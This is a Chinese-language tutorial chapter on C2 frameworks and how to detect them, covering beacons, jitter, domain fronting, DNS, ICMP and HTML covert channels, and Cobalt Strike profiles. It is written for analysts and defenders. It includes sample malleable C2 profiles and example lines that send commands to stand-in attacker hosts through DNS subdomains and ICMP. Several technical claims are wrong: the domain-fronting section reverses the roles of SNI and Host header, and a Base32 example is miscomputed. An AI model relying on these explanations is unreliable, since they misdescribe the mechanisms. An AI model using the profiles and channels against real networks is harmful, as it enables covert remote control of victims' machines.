

# 恶意代码分析与免杀对抗（13）· C2框架与通信协议

> [!abstract] TL;DR
> - **Beacon 机制**是现代C2的核心——通过周期性回联、灵活的编码/加密与多通道支持，实现隐蔽、容错的命令投递与结果回收
> - **域前置（Domain Fronting）**利用 HTTPS SNI 欺骗与 Host 头差异，向 CDN/反向代理隐蔽真实 C2 服务器地址，是流量混淆的经典对抗手段
> - **隐蔽信道**复用合法协议（DNS、ICMP、HTTP 页面指令）承载恶意命令，使威胁行为难以在正常业务流量中被检测与追踪
> - **协议多样化**（HTTP/2、WebSocket、DNS over HTTPS、Protocol Buffers）与**加密/混淆**全栈应用，是现代 APT 与商业 C2 框架（Cobalt Strike、Sliver）规避防护的标配
> - 防御与检测必须从**网络流量基线、TLS 证书链、DNS 异常模式、进程-网络关联**多维度协同，单点防御易被绕过

---

## 概述与定位

C2（Command & Control，命令与控制）框架是恶意代码远程管理的枢纽。与初级的"单向下载型"恶意代码不同，现代 APT 与商业渗透工具都依赖成熟的 C2 基础设施来实现：

- **交互式控制**：实时执行命令、传输文件、逐步深入
- **容错与隐蔽**：网络中断自动重连、通信流量混淆规避检测
- **多阶段部署**：初级 beacon 为轻量级驻留，二阶段加载完整代理/提权工具

C2 通信的安全水位直接决定了整条攻击链的持久性。即使恶意代码本体被检测隔离，如果 C2 信道已建立，攻击者可随时重新部署、横向移动或数据窃取。这使得 C2 设计成为"免杀"对抗的关键战场：从 beacon 回联的时序混淆、到 HTTPS SNI 欺骗、再到 DNS 隐蔽信道，每一层都在与防守侧的流量分析、日志聚合、威胁狩猎对峙。

本篇聚焦 C2 框架的**通信协议设计、隐蔽传输机制、实战框架剖析**，为逆向工程师与防御队伍提供原理级理解。

---

## 原理与机制




### C2 通信的基本模型

C2 系统分为两端：

1. **服务端（Teamserver/C2 Server）**：运维者或攻击团队的命令中枢，部署在可控的基础设施上（自建服务器、云 VPS、或经过混淆处理的代理链）
2. **客户端（Agent/Beacon/Implant）**：驻留在目标主机的恶意代码，定期主动与服务端通信（pull 模式）或被动监听（push 模式）

Pull 模式（目标主机定期查询命令）是业界主流，因为：
- **出站连接天然存在**：合法业务流量中出站连接司空见惯，入站反向连接反而容易被防火墙拦截
- **容错性强**：服务端故障期间 agent 继续回联，恢复后无缝衔接，无需维持"持久监听套接字"
- **混淆友好**：可伪装为浏览器、OA 系统、推送服务等常见业务流量

### 通信的四层抽象

```
┌─────────────────────────────────────────────────┐
│ 应用层：任务编码 (JSON/Protobuf/Binary)        │
├─────────────────────────────────────────────────┤
│ 传输层：HTTP/DNS/ICMP/WebSocket 等实体协议     │
├─────────────────────────────────────────────────┤
│ 混淆层：加密/填充/分段/编码（Base64/XOR/RC4）│
├─────────────────────────────────────────────────┤
│ 隐蔽层：域前置/代理链/TOR/隐蔽信道              │
└─────────────────────────────────────────────────┘
```

防守侧的检测可以在任何一层工作（TLS 指纹识别→传输层，DNS 异常分析→传输层，网络基线→隐蔽层），而防御侧的规避也是全栈的——不仅加密数据，更要让连接"看起来"像合法流量。

---

## C2 框架与通信协议详解

### 一、Beacon 机制与回联设计

Beacon（信标）是 Cobalt Strike 推行的经典设计，现已成为行业标准。其核心是**有状态的周期性回联**：

#### 1. 回联节奏与灵活性

```
时刻      Agent 行为
────────────────────────────────────
T0        连接 C2，获取任务列表（可能为空）
T0+δ      等待 beacon interval（如 60 秒）
T0+60s    再次连接，获取新任务
```

关键参数：

- **Beacon Interval**：主要回联周期（默认 Cobalt Strike 为 60 秒）
- **Beacon Jitter**：抖动百分比（如 jitter=30% 意味着实际回联间隔在 60±30% 内随机波动，即 42~78 秒）
- **Maximum Backoff**：网络故障后的最大退避时间（避免暴露目标）

抖动的目的是**破坏周期性特征**。简单的 60 秒定时回联在流量中表现为极强的"心跳"信号，易被 IDS 检测：

```
检测特征：
流量时间序列  [60.1s, 59.8s, 60.3s, 59.9s, 60.2s, ...]
统计         方差极小，周期极规则
缺陷         上述特征在合法流量中罕见（除推送服务外）
```

加入 jitter 后：

```
修改后      [67s, 55s, 71s, 48s, 63s, 52s, 69s, ...]
覆盖分布     展宽至目标区间，周期特征模糊化
模拟         与用户浏览行为的不规律性近似
```

#### 2. 任务编码与投递

C2 服务端需要将命令编码为 beacon 能理解的格式。Cobalt Strike 使用专有二进制格式，其他框架（Empire、Sliver）采用 JSON 或 Protocol Buffers。

一个典型的任务对象包含：

```
{
  "id": 12345,              // 任务 ID，用于回复时关联
  "cmd": "run",             // 命令类型（run/download/upload/ps等）
  "args": "whoami /all",    // 命令参数
  "timeout": 30             // 超时时间（秒）
}
```

任务的完整往返流程：

```
1. 服务端：生成任务 → 加密 → HTTP 响应体
2. Agent：获取响应 → 解密 → 解析任务队列
3. Agent：按序执行命令 → 捕获 stdout/stderr
4. Agent：组装结果对象 → 加密 → 附加到下一次回联请求
5. 服务端：接收请求 → 解密 → 关联任务 ID → 数据库存储
```

#### 3. 编码与加密策略

**编码层**（压缩、序列化）

- **Gzip 压缩**：减小通信体积，特别对文件传输、进程列表等大数据有效
- **Base64 编码**：使二进制数据可在 HTTP URL 或 JSON 中安全传输
- **Protocol Buffers**：比 JSON 更紧凑的序列化格式，Sliver 等现代框架采用

**加密层**（保密性）

- **AES-256-CBC**（Cobalt Strike 默认）：对称加密，密钥由初期握手确定
- **TLS 1.3**（现代框架）：整个 HTTP 连接加密，无需额外应用层加密
- **XOR 单字节**（低端木马）：仅作混淆，无安全性，可秒破
- **RC4 流密码**（过时）：已被广泛证明存在弱点，现代框架已弃用

#### 4. Beacon 的握手与密钥建立

初期连接时，agent 需与 C2 服务端建立共享密钥：

```
Agent 连接 C2
    ↓
[请求] HTTP POST /api/heartbeat
  Body: {
    "beacon_id": "0x12345678",  // 硬编码或生成的唯一 ID
    "public_key": "<agent_pubkey>",  // Agent 生成的临时公钥
    "metainfo": { ... }  // 系统信息（OS/用户/权限等）
  }
    ↓
[响应] HTTP 200 OK
  Body: {
    "c2_public_key": "<server_pubkey>",
    "session_key_encrypted": "<AES(symkey)>"  // 用 agent 公钥加密的会话密钥
  }
    ↓
Agent 用私钥解密 → 获得会话密钥
后续通信用会话密钥加密（快速）
```

这种混合加密（初期 RSA/ECDH 握手，后续 AES）是业界标准，平衡了性能与安全。

---

### 二、域前置（Domain Fronting）与 SNI 欺骗

域前置是一种巧妙的通信混淆技术，利用 HTTPS 握手中的 SNI（Server Name Indication）与 HTTP Host 头的不一致。

#### 原理详解

当客户端访问 `https://real-c2.evil.com` 时：

```
1. DNS 查询       real-c2.evil.com → IP: 1.2.3.4
2. TCP 连接       连接 1.2.3.4:443
3. TLS 握手
   ├─ ClientHello
   │  └─ SNI Extension: real-c2.evil.com  // 告诉服务器"我想连谁"
   ├─ ServerHello
   └─ 证书交换       real-c2.evil.com 的证书
4. HTTP 请求
   Host: real-c2.evil.com  // HTTP 层指定的目标
```

这在正常情况下 SNI 与 Host 一致。但许多 CDN（CloudFlare、AWS CloudFront）拥有大量域名，它们的真实 IP 后面对应成百上千个前端域。攻击者的技巧是：

```
┌────────────────────────────────────────────────────┐
│ 正常流量（用户访问正常网站）                      │
├────────────────────────────────────────────────────┤
│ DNS: cdn.example.com        → 1.1.1.1 (CloudFlare) │
│ TLS SNI: cdn.example.com                           │
│ HTTP Host: cdn.example.com                         │
│ 结果: 连接到 cdn.example.com 的内容               │
└────────────────────────────────────────────────────┘

┌────────────────────────────────────────────────────┐
│ 域前置（攻击者的技巧）                            │
├────────────────────────────────────────────────────┤
│ DNS: cdn.example.com        → 1.1.1.1 (CloudFlare) │
│ TLS SNI: c2.evil.com        ✗ 不存在的，偷偷指向 │
│ HTTP Host: cdn.example.com  ✓ 合法，指向真实      │
│ 结果：                                             │
│   1. TLS 握手看起来连到了 c2.evil.com             │
│   2. 但 IP 1.1.1.1 实际上是 CloudFlare            │
│   3. CloudFlare 收到 SNI=c2.evil.com 不匹配     │
│   4. 回落使用 Host 头 cdn.example.com             │
│   5. 内容看起来来自 cdn.example.com（合法）      │
│   6. 但攻击者在响应中隐蔽编码了真实 C2 命令      │
└────────────────────────────────────────────────────┘
```

#### 实战案例：Cobalt Strike 域前置

Cobalt Strike 的域前置配置：

```
# malleable C2 profile 片段
http-get {
    set uri "/api/v1/status";
    
    client {
        header "Host" "cdn.example.com";  // 欺骗 SNI
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
    }
    
    server {
        header "Content-Type" "application/json";
        output {
            base64;
            // 响应中的实际 beacon 数据被隐蔽编码
        }
    }
}

# 生成配置时指定真实 C2
cobaltstrike.server = c2.evil.com
```

agent 连接方式：

```python
# Beacon C2 流量
DNS 查询       cdn.example.com → 1.1.1.1 (CloudFlare)
TCP 连接       1.1.1.1:443
TLS SNI        c2.evil.com (试图绕过)
HTTP Host      cdn.example.com (掩护)
HTTP Request   GET /api/v1/status HTTP/1.1
               Host: cdn.example.com
               User-Agent: Mozilla/5.0 ...
```

#### 防守侧的应对

域前置的检测重点：

1. **TLS 证书链分析**：
   - SNI 与证书 CN/SAN 不匹配 → 警告
   - 证书链来自公共 CA（Let's Encrypt、CloudFlare）但域名不在 CDN 正常范围内 → 异常

2. **HTTP 头一致性**：
   - Host 与 SNI 长期不一致 → 可疑
   - 但短期可能为 HAProxy 重写，需结合其他信号

3. **DNS 与 HTTP 关联**：
   - DNS 查询 A：cdn.example.com → IP X
   - HTTP 请求 Host：cdn.example.com
   - 但连接来源：agent 的实际连接 IP 与 DNS 回答的 IP 不一致 → 代理链或隐蔽

4. **流量内容分析**：
   - 即使 TLS 加密，HTTP/2 头部（:path、:authority）仍可见
   - 可疑路径（/api/v1/cmd、/ms/hello）可识别 C2 特征

---

### 三、隐蔽信道（Covert Channel）

隐蔽信道是更激进的混淆方案：不走通常的 HTTP/HTTPS，而是复用合法协议的旁道来传输恶意命令。

#### 1. DNS 隐蔽信道

DNS 是互联网的基础设施，大多数防火墙默认开放 DNS 出站（53/udp）。攻击者可利用 DNS 查询-响应的结构来承载恶意数据：

**编码方式 A：子域名编码**

```
合法 DNS 查询：
  A 查询 → www.example.com

隐蔽信道：
  A 查询 → <base32(command)>.c2.attacker.com
  
例：执行 whoami
  whoami 的 base32 编码：
    Base32("whoami") = "O5XG633T"
  
  查询：O5XG633T.c2.attacker.com
  
  攻击者的 DNS 服务器：
    1. 收到查询 O5XG633T.c2.attacker.com
    2. 解码 base32 → "whoami"
    3. 这就是一条命令
    4. 返回 A 记录 1.2.3.4（或其他约定好的值）
```

**编码方式 B：DNS 响应数据编码**

```
Agent 发起正常 DNS 查询：
  A 查询 → google.com → 返回 8.8.8.8（公开 DNS）

攻击者的 DNS 中间人/DNS 欺骗：
  截获查询，返回伪造的多条 A 记录：
    8.8.8.8        (合法响应，混淆用)
    192.168.1.1    (编码的命令数据)
    10.0.0.1       (编码的命令数据)
    172.16.0.1     (编码的命令数据)
  
  Agent 收到响应后，从 IP 地址的数字中提取命令
```

**流量特征与检测**

```
Detection Indicator:
1. DNS 查询异常频繁（每秒数十条）
2. 查询域名不在"已知合法列表"内
3. 子域名部分看起来是 base32/base64 编码
4. 递归查询到攻击者控制的 NS 服务器
```

防御侧应用：

- **DNS 日志聚合与基线学习**：建立"正常 DNS 查询"的基线，检测偏差
- **威胁情报联动**：黑名单已知的恶意 NS 服务器
- **DNS 深包检测**：分析子域名熵值，高熵（编码特征）的域名标记异常

#### 2. ICMP 隐蔽信道

ICMP（互联网控制消息协议）主要用于 ping/traceroute。其数据包格式包含一个可选的"Data"字段：

```
ICMP Echo Request (Ping)
┌─────────────────────┐
│ Type (8)            │  告诉对端这是 Echo Request
├─────────────────────┤
│ Code (0)            │
├─────────────────────┤
│ Checksum            │
├─────────────────────┤
│ Identifier          │
├─────────────────────┤
│ Sequence Number     │
├─────────────────────┤
│ Data (可变大小)     │  ← 攻击者在此编码命令
└─────────────────────┘
```

Agent 可伪装为"网络诊断工具"定期 ping 一个外部 IP，将命令编码在 Data 字段中。对于不深包检测的网络，ICMP 流量极难被察觉。

```
Agent:  ping attacker.com (data="ls")
C2:     ping reply with result="drwxr-xr-x ..."
```

**弱点**

- 大多数现代 IDS（Snort、Suricata）可检测 ICMP 异常（大包、快速发送）
- ICMP 穿过 NAT 时易被阻挠
- 内网隔离规则通常限制 ICMP

#### 3. HTTP 响应头与页面内容隐蔽信道

最隐蔽的方式是在**合法网站的页面内容或 HTTP 响应头**中隐蔽编码命令，agent 通过爬虫式访问提取。

```
攻击场景：
1. 攻击者入侵一个合法网站（如 news.example.com）
2. 在首页的 HTML 注释或特定图像加载路径中隐蔽命令
3. Agent 定期访问这个网站，爬取"正常的新闻内容"
4. 通过隐蔽解析规则提取命令

HTML 示例：
  <!-- 这是我们的赞助商链接 -->
  <!-- sponsor-id: a1b2c3d4e5f6 -->
  <!-- 访问量排名第 3 -->

解析规则（Agent）：
  if "sponsor-id:" in page:
    cmd = extract_hex_after("sponsor-id: ")
    execute(cmd)
```

这种方式的特点：

- **流量完全合法**：Agent 看起来只是访问普通网站
- **多个前置**：可在多个被入侵网站上布置"遥控指令"，具备冗余
- **低频通信**：命令可以按天级更新，检测难度极大
- **回显困难**：通常单向，回显需配套隐蔽信道

---

### 四、现代 C2 框架的通信特性对比

#### Cobalt Strike

```
特性              实现方式
─────────────────────────────────────
默认 Beacon 间隔   60 秒 + jitter
加密方式          AES-256-CBC（初期握手 RSA）
支持的通道        HTTP/HTTPS/DNS/SMB(内网)
域前置支持        Yes（malleable C2 profile）
流量伪装          高度可定制（UA/Cookie/HTTP 方法）
多阶段部署        Yes（stager → beacon → post-ex 工具）
```

#### Empire / PowerShell Empire

```
特性              实现方式
─────────────────────────────────────
通信协议          HTTP/HTTPS
加密方式          AES（Python 的 Crypto 库）
编码格式          JSON
beacon 间隔       可配置（默认 5 秒）
特点              PowerShell 原生，Windows 优先
```

#### Sliver (开源)

```
特性              实现方式
─────────────────────────────────────
通信协议          gRPC / HTTP / DNS 可选
加密方式          TLS 1.3 + Protocol Buffers
beacon 间隔       可配置
特点              现代化（Go 语言）、跨平台
隐蔽信道          DNS DNS-over-HTTPS 支持
```

---

## 工具视角与实战

### 逆向 Beacon 数据结构

当分析捕获的 C2 流量时，逆向工程师需要理解 beacon 的数据排布。以 Cobalt Strike 为例：

```c
// Beacon 数据头（简化模型）
struct BeaconPacket {
    uint32_t beacon_id;       // 4 字节，beacon 标识
    uint32_t magic;           // 4 字节，0xBEEF 或其他魔数
    uint32_t size;            // 4 字节，后续数据长度
    uint8_t  data[size];      // 加密的任务/结果数据
};

// 任务对象（反序列化后）
struct Task {
    uint32_t task_id;         // 任务 ID
    uint32_t cmd_type;        // 命令类型枚举
    uint8_t  args[...];       // 命令参数
};
```

**破译步骤**

1. **流量提取**：使用 Wireshark 导出 HTTP POST 请求体
2. **解密密钥推导**：
   - 如果有初期握手流量，从中提取 RSA 公钥
   - 使用配套的私钥（如泄露的 teamserver key）解密会话密钥
   - 使用会话密钥（AES）解密后续通信
3. **反序列化**：按数据结构定义逐字段解析
4. **关联分析**：通过 task_id 将请求与响应对应，重构完整的命令执行流

### Cobalt Strike Profile 分析

Cobalt Strike 的 malleable C2 profile 是定制通信特征的核心，也是逆向的关键：

```c2
# 典型的恶意 profile 片段
http-config {
    set trust_x_forwarded_for "true";
    set sample_name "survey";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";
}

http-post {
    set uri "/submit.php?id=123";
    set verb "POST";
    
    client {
        header "Content-Type" "application/x-www-form-urlencoded";
        id "BASE64(data)";
        output "base64";
    }
    
    server {
        header "Server" "nginx/1.14.0";
        output "base64";
    }
}
```

逆向此 profile 时需注意：

- **URI 特征**：/submit.php、/api/config、/image/ 等可疑路径应被标记
- **编码方式**：BASE64(data) 意味着请求体是 base64 编码的原始 beacon 数据
- **User-Agent**：虽然看似正常，但同一 UA 在多个时间、多个目标网络出现时异常
- **HTTP 方法**：GET vs POST 的选择影响回显机制（GET 受 URL 长度限制，通常用于发送小任务；POST 用于回送大结果）

### 隐蔽信道的识别

在被动流量捕获中识别隐蔽信道：

```
DNS 隐蔽信道：
  1. 提取所有 DNS 查询域名
  2. 计算子域名部分的熵（Shannon Entropy）
  3. 高熵（>4.5）的子域名标记异常
  4. 检查是否存在 base32/base64 特征
  
ICMP 隐蔽信道：
  1. 检查 ICMP Echo Request 的 data 字段大小
  2. 大小一致（如都是 100 字节）且频率规律 → 可疑
  3. 数据的字节分布非随机（压缩或加密文本）→ 更可疑
  
HTTP 隐蔽信道：
  1. 寻找频繁访问、但无用户交互的请求（如自动爬虫）
  2. 检查响应大小是否固定（指令隐蔽时响应通常是固定占位符）
  3. 关联分析：同一 user agent、来自不同源 IP 但访问同一 URI
```

### 工具链

**Beacon 解密/解析**

- **Cobalt Strike C2Decrypter**：社区工具，用已知密钥解密 beacon 流量
- **Wireshark Lua 脚本**：自定义解析器，按 beacon 数据结构分解
- **pcap 提取器 (tcpdump + 自定义脚本)**：从 pcap 提取所有 HTTP POST 体，用 Python/Go 批量解密

**C2 识别**

- **Brim / Zeek**：网络流量分析框架，内置 HTTP 异常检测
- **Suricata**：IDS，拥有大量 C2 签名规则（ET Pro 提供）
- **yara-rules/CT-Threat-Intel**：社区 YARA 规则库，可识别已知 C2 profile

---

## 安全性与正确使用

> [!caution]
> **法律与合规边界**：本章知识仅供以下用途：
> - **自有系统的防御测试**：在拥有管理权限的实验网络中进行 C2 通信测试
> - **授权安全研究**：与雇主或客户签订明确的渗透测试协议，文件齐全
> - **CTF 与学术竞赛**：在安全竞赛组织方的靶场内操作
> - **开源软件安全审计**：对开源 C2 框架（如 Sliver）的代码审计与防护贡献
> 
> **严禁**用于：
> - 未经授权的任何真实系统、网络或企业环境的渗透
> - 商业产品的绕过或盗版（License 管理系统的规避）
> - 数据窃取、勒索、DDoS 等犯罪用途
> 
> 本章从**防御与检测视角**讲述原理，目标是帮助防守队伍理解威胁、建立防控，而非提供"开箱即用"的武器化步骤。

### 防守侧的核心挑战

C2 通信防御的难点在于"对称性破缺"：

1. **出站连接的必要性**：正常业务必然产生 HTTPS 出站连接（更新、API 调用、云服务），很难单纯通过"禁止外连"防御
2. **加密的完全性**：现代 TLS 1.3 加密了除 IP/port/域名外的所有内容，深包检测的空间受限
3. **协议的多样性**：即使封禁 HTTP，还有 DNS、ICMP、WebSocket、DNS-over-HTTPS 等替代方案
4. **供应链的薄弱环节**：数据中心、DNS 服务、CDN 的被入侵也可成为隐蔽信道的前置

### 分层防御策略

#### 第一层：网络隔离与基线

- **零信任网络分段**：将高价值资产（数据库、密钥管理）与通用办公网络隔离，限制横向移动
- **出站连接白名单**：仅允许业务必需的外部 IP/域名，其他统一审批
- **DNS 监控与威胁情报**：与 DNS 安全网关（如 Infoblox、Cisco Umbrella）联动，识别恶意域名

#### 第二层：流量分析与异常检测

```
检测矩阵：
┌─────────────────┬──────────────────┬──────────────────┐
│ 特征             │ 检测方法           │ 误报风险         │
├─────────────────┼──────────────────┼──────────────────┤
│ Beacon 周期性   │ 时间序列分析       │ 中（合法心跳）  │
│ TLS SNI ≠ Host │ 证书链验证         │ 低               │
│ DNS 高熵子域    │ 熵值计算           │ 中（编码 URL）   │
│ ICMP 大包/快速  │ 包大小+频率分析    │ 低（ICMP 罕见）  │
│ 异常 UA         │ UA 指纹库对比      │ 中               │
│ C2 特征 URI     │ YARA/正则匹配     │ 低               │
└─────────────────┴──────────────────┴──────────────────┘
```

#### 第三层：端点检测与进程分析

- **进程-网络关联**：标记"不该出网"的进程（如 notepad、calc），与其网络连接相关联
- **负载检测**：即使不解密，也能通过加密握手的时机、握手失败率识别异常
- **内存扫描**：定期扫描活跃进程的内存，寻找 beacon 代码段或已知 C2 的二进制特征

#### 第四层：日志聚合与威胁狩猎

```
关键日志来源：
- DNS 日志（所有域名查询）
- Proxy 日志（所有出站 HTTP/HTTPS）
- 防火墙日志（所有新连接）
- Syslog（进程创建、文件操作）
- EDR 日志（进程树、注册表、网络连接）

聚合与关联：
1. 提取所有出站 IP 并反查 DNS → 检测 DGA（Domain Generation Algorithm）
2. 过滤出"非业务的"IP/端口 → 识别隐蔽通道
3. 关联进程创建与网络连接 → 识别父进程异常（如 explorer.exe 出网）
4. 时间序列分析 → 识别周期性或阶梯型通信
```

### C2 框架的自卫机制与我们的应对

#### Agent 的"活性检测"

成熟的 C2 框架在 agent 启动时进行"沙箱检测"，避免在分析环境中暴露通信信息：

```cpp
// Beacon 伪代码
if (IsVirtualized() || IsDebugged() || IsInSandbox()) {
    // 不初始化 C2，假装是普通应用
    exit(0);
}
InitC2();
```

**防守侧应对**：

- 在沙箱中伪装成真实环境（MAC 地址欺骗、硬件特征虚拟化）
- 使用高交互蜜罐，而非自动化沙箱
- 对可疑样本进行强制动态分析（inline hooking、强行执行）

#### C2 的"心跳超时"与重试机制

```
Agent 连接失败时的退避策略：
尝试 1：立即重试
尝试 2：等待 10 秒
尝试 3：等待 30 秒
...
尝试 N：等待 min(300, 2^N) 秒（最多 5 分钟）

当网络恢复后，Agent 自动重新连接，无需重新部署。
```

**防守侧应对**：

- 隔离被感染主机的网络，观察其连接重试的时间序列
- 在沙箱或蜜罐中观察 agent 的重试特征，识别 beacon interval
- 通过伪造 DNS/网关阻力，让 agent 进入高退避状态，减缓其重启

---

## 小结

C2 通信的本质是**隐蔽的、可靠的、交互式的远程控制**。现代恶意代码与 APT 通过分层设计在多个维度规避防护：

1. **应用层**：多样化的协议（HTTP、DNS、ICMP、WebSocket）与编码方式
2. **传输层**：TLS 1.3 加密，关键信息（SNI、Host）的分离与欺骗
3. **隐蔽层**：域前置、代理链、隐蔽信道，使流量"隐形"于合法背景
4. **容错设计**：周期性回联、jitter 抖动、自动重试，确保持久驻留

防守的关键在于从**多维度协同**：不能仅依赖单一检测方法（如 IDS 签名），而要建立包括**网络隔离、流量基线、进程分析、日志聚合**的纵深防御体系。

逆向工程师的价值在于**理解原理、破译数据结构、识别已知框架与变体**，为防御队伍提供精准的检测信号与威胁情报。

---

## 相关阅读

- [[32.hooks/11-process-injection|进程注入技术全谱]] — 理解 C2 agent 的内存驻留方式
- [[32.hooks/15-etw|ETW 与安全监控]] — 在端点级别检测 C2 活动
- [[53.数字取证与事件响应/00.数字取证与事件响应总览|数字取证与事件响应总览]] — 事件响应中的 C2 取证与溯源
- [[72.抓包与协议分析实战/12.流量特征分析与检测绕过|流量特征分析与检测绕过]] — C2 流量特征识别的深度
- [[72.抓包与协议分析实战/19.网络取证与流重组|网络取证与流重组]] — 从 pcap 重构 C2 命令对话
- [[12.直接系统调用与unhooking|直接系统调用与unhooking]] — 上一章：系统调用绕过
- RFC 3552 / RFC 5234 — DNS 与网络协议基础
- Cobalt Strike 官方文档 — Malleable C2 Profile 语法与最佳实践

---

[[00.恶意代码分析与免杀对抗总览|⬆ 系列总览]] | [[12.直接系统调用与unhooking|← 上一章]] | [[14.流量分析与网络IOC提取|→ 下一章]]
